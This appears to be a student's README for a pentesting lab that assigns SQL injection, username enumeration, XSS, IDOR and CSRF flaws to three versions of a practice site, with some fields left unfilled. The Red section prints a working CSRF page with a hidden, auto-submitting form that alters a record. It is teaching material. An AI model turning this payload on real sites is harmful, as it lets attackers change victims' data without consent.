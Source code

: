 # Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/sqlinject.gif">

Vulnerability #2: __________________

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/userenum.gif">

## Green

Vulnerability #1: Username Enumeration
* When a NON-existing username is entered, the "Log in was unsuccessful." message is unbolded.

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/userenum.gif">

Vulnerability #2: Cross-Site Scripting (XSS)

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/xss.gif">


## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)
* By changing the value of "id" in the URL, a visitor is able to view pages/information that was meant to be private

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/idor.gif">

Vulnerability #2: Cross-Site Request Forgery (CSRF)
* Forged a form using the code below. Then allowed a logged-in user to visit the page, resulting in a CSRF POST request attack

```
<html>
  <head>
  </head>
  <body>
  	<h1><center>Totally Normal Site</center></h1>
    	<form name="csrfForm" action="https://35.184.21.59/red/public/staff/salespeople/edit.php?id=1" 
	method="post" target="hide">

		<input type="hidden" name="first_name" value="Site Hacked">
		<input type="hidden" name="last_name" value="By Brian">
	</form>
	<iframe name="hide" style="display: none;"></iframe>
	<script>
 		document.csrfForm.submit();
	</script>
  </body>
</html>
```

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/csrf.gif">

## Notes

Describe any challenges encountered while doing the work
